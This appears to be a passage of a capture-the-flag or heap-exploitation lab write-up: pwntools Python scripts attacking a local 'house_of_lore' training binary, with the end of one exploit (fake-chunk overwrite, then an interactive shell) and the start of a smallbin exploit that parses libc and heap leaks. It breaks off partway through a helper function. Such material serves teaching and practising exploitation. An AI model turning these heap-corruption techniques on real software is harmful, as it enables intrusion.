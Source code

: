 ```python=

edit(fake_chunk, p64(0)*4 + b'Much win\x00')
target()

io.interactive()
 ```
 
 

---
smallbin.py

```python=
#!/usr/bin/env python3
from pwn import *

context.log_level = 'debug'
context.binary = elf = ELF('./house_of_lore', checksec=False)

#libc = ELF('../.glibc/glibc_2.25/libc.so.6', checksec=False)
libc = elf.libc 

gs = """
b *main

b *main+290

b *main+390
b *main+521

b *main+748
b *main+849

b *main+945
b *main+1064
"""

index = 0

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)

def handle():
    io.recvuntil(b'puts() @ ')
    puts = int(io.recvline(), 16)
    io.recvuntil(b'heap @ ')
    heap = int(io.recvline(), 16)
    success("puts leak")
    info('puts @ ' + hex(puts))
    success("heap leak")
    info('heap @ ' + hex(heap))
    return puts, heap

def send_name(name):
    io.sendafter(b'Enter your username: ', name)
    io.recvuntil(b'> ')

def malloc(size):
    global index
```